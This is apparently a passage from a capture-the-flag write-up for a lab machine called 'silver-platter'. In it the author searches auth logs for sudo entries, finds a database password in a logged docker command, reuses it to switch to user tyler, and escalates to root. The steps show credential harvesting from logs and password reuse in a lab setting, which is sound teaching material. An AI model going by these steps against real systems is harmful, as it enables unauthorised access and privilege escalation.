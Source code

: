 Trying to figure out who this Tyler could be: 

```bash
tim@silver-platter:/$ lslogins -u tyler
KZAK>>> alloc '0x561348364540' for tyler
Username:                           tyler
UID:                                1000
Gecos field:                        root
Home directory:                     /home/tyler
Shell:                              /bin/bash
No login:                           no
Primary group:                      tyler
GID:                                1000
Supplementary groups:               lxd,adm,cdrom,sudo,dip,plugdev
Supplementary group IDs:            110,4,24,27,30,46
Last login:                         2024-May08
Last terminal:                      pts/0
Last hostname:                      192.168.1.20
Running processes:                  0

Last logs:
2024-May08 systemd[1949]: Startup finished in 68ms.
2024-May08 sudo[2072]:    tyler : TTY=pts/0 ; PWD=/var/log ; USER=root ; COMMAND=/usr/bin/su
2024-May08 sudo[2072]: pam_unix(sudo:session): session opened for user root(uid=0) by tyler(uid=1000)

tim@silver-platter:/$
```

From the looks of it, Tyler can su to ROOT. Lets take a closer look at the logs:

```bash
tim@silver-platter:/var/log$ grep -Rni tyler * | grep -i sudo | grep -i password
grep: amazon: Permission denied
grep: btmp: Permission denied
grep: btmp.1: Permission denied
auth.log.2:54:Dec 12 19:39:15 silver-platter sudo:    tyler : 3 incorrect password attempts ; TTY=tty1 ; PWD=/home/tyler ; USER=root ; COMMAND=/usr/bin/apt install nginx
auth.log.2:106:Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

In relation to Tyler I could see a Postgres password being used. Trying that password (```_Zd_zx7N823/```) to become Tyler:

```
tim@silver-platter:/var/log$ su tyler
Password:
tyler@silver-platter:/var/log$ sudo -l
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
tyler@silver-platter:/var/log$ sudo su
root@silver-platter:/var/log# cd /root
root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh
root@silver-platter:~# cat root.txt
```
